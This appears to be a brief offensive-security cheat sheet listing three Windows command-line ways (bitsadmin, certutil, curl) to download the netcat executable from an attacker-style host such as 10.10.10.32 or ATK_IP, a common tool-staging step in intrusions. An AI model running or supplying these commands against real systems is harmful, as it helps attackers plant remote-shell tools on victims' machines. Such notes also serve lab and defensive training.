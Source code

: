 # CMD

### 1) Bitsadmin

    bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe

### 2) certutil

    certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe

### 3) cURL

    curl -o C:\Users\USER\Downloads.nc.exe http://ATK_IP/nc.exe

